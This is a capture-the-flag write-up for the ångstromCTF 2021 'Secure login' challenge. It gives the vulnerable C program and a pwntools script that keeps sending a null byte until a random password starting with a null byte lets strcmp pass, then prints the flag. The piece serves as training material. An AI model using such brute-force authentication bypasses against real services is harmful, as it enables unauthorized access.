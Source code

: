 ```yaml
---
layout: post
title: ångstromCTF 2021 - Secure login
categories: [Write-Ups, AngstromCTF]
tags: [AngstromCTF, Pwn]
featured-image:  AngstromCTF/icon.png
featured-image-alt: AngstromCTF
---
```


It's a write-up about the challenge : [AngstromCTF - Secure shell](https://ctftime.org/task/15319)

	
## 1. Challenge


My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

Author: kmh

```
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```

## 2. Solution

My theory is that strings in C terminate at the newline/ null byte/ terminating character or something. strcmp only compares to the terminating character. There is a chance that the /dev/urandom generates a \x00 as the first character. This denotes that the password would be entirely empty. If I keep sending empty strings, sooner or later, I'll meet into this situation and pass the check.

```
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './login'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warn'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Run program 1000 times (hoping for null byte)
for i in range(1000):
    io = start()
    io.recv()
    # Try to login with null byte
    io.sendline(b"\x00")
    io.recvuntil(': ')
    response = io.recv()
    # Did we get the flag?
    if(not b'Wrong!' in response):
        print(response)
    io.close()
```



The flag was : **actf{if_youre_reading_this_ive_been_hacked}**